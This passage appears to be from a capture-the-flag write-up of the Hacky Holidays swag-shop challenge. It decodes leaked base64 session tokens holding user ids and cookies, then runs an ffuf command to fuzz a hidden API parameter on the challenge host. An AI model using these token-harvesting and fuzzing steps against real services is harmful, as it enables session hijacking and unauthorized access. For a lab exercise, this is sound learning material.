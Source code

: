         "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0=",
        "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNMlEyTURJek5EZzVNV0UwTjJNM05ESm1OVEl5TkdNM05XVXhZV1EwTkRSbFpXSTNNVGc0TWpJM1pHUmtNVGxsWlRNMlpEa3hNR1ZsTldFd05tWmlaV0ZrWmpaaE9EZzRNRFkzT0RsbVpHUmhZVE0xWTJJeU1HVmhNakExTmpkaU5ERmpZekJoTVdRNE5EVTFNRGM0TkRFMVltSTVZVEpqT0RCa01qRm1OMlk9In0=",
        "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNV1kzTVRBek1UQmpaR1k0WkdNd1lqSTNaamsyWm1Zek1XSmxNV0V5WlRnMVl6RTBNbVpsWmpNd1ltSmpabVE0WlRVMFkyWXhZelZtWlRNMU4yUTFPRFkyWWpGa1ptRmlObUk1WmpJMU0yTTJNRFZpTmpBMFpqRmpORFZrTlRRNE4yVTJPRGRpTlRKbE1tRmlNVEV4T0RBNE1qVTJNemt4WldOaE5qRmtObVU9In0=",
        "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRE00WXpoaU4yUTNNbVkwWWpVMk0yRmtabUZsTkRNd01USTVNakV5T0RobE5HRmtNbUk1T1RjeU1EbGtOVEpoWlRjNFlqVXhaakl6TjJRNE5tUmpOamcyTm1VMU16VmxPV0V6T1RFNU5XWXlPVGN3Tm1KbFpESXlORGd5TVRBNVpEQTFPVGxpTVRZeU5EY3pOakZrWm1VME1UZ3hZV0V3TURVMVpXTmhOelE9In0=",
        "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJPR0kzTjJFeE9HVmpOek0xWldWbU5UazJaak5rWmpJd00yWmpZemRqTVdOaE9EZzRORGhoT0RSbU5qSTBORFJqWlRkbFpUZzBaVFV3TnpabVpEZGtZVEpqTjJJeU9EWTVZamN4Wm1JNVpHUmlZVGd6WmpoaVpEVmlPV1pqTVRWbFpEZ3pNVEJrTnpObU9ESTBPVE01WkRNM1kySmpabVk0TnpFeU9HRTNOVE09In0="
      ].map(session => atob(session))
      
      console.log(sessions)
      
        0: {user: null, cookie: "YzVmNTJiYTNkOWFlYTY2YjA1ZTY1NDBlNmI0YmZjMmNmZGYzMz…kM2VkNzU3MTUwYjdkYzkyNWI4Y2I3ZWZiNjk2N2NjOTk0MjU="}
        1: {user: null, cookie: "ZjM2MzNjM2JkZGUyMzVmMmY2ZjcxNjdlNDNmZjQwZTlmY2RhNj…hZDA0MDUwYmQ3NDlmZTE4MmNkMjMxMzU0MWRlMTJhNWYzOGQ="}
        2: {user: "C7DCCE-0E0DAB-B20226-FC92EA-1B9043", cookie: "NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YW…2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}
        3: {user: null, cookie: "MDRmYTBhN2FiNjY5MGFlOWFmYTE4ZjE2N2JjZmYzZWJkOTRlOG…4MjJlMDI2YjQzZDQxMGNmNTg1ODQxZjBmODBmZWQxZmE1YmE="}
        4: {user: null, cookie: "M2Q2MDIzNDg5MWE0N2M3NDJmNTIyNGM3NWUxYWQ0NDRlZWI3MT…1NjdiNDFjYzBhMWQ4NDU1MDc4NDE1YmI5YTJjODBkMjFmN2Y="}
        5: {user: null, cookie: "MWY3MTAzMTBjZGY4ZGMwYjI3Zjk2ZmYzMWJlMWEyZTg1YzE0Mm…kNTQ4N2U2ODdiNTJlMmFiMTExODA4MjU2MzkxZWNhNjFkNmU="}
        6: {user: null, cookie: "MDM4YzhiN2Q3MmY0YjU2M2FkZmFlNDMwMTI5MjEyODhlNGFkMm…yMTA5ZDA1OTliMTYyNDczNjFkZmU0MTgxYWEwMDU1ZWNhNzQ="}
        7: {user: null, cookie: "OGI3N2ExOGVjNzM1ZWVmNTk2ZjNkZjIwM2ZjYzdjMWNhODg4ND…jMTVlZDgzMTBkNzNmODI0OTM5ZDM3Y2JjZmY4NzEyOGE3NTM="}
        ```
* /user
    * This API sent response code 400 with data `{"error":"Missing required fields"}`. We will need to fuzz this further for HTTP PARAMETER's.
    * Here we have a parameter missing so we will fuzz to guess the parameter now
        ```bash
        >> sapra@MacBook-Pro $ ffuf -u "https://hackyholidays.h1ctf.com/swag-shop/api/user/?FUZZ=1"  -w ~/Desktop/parameters.txt -fs 35 -mc all


            /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/

           v1.2.0-git
        ________________________________________________
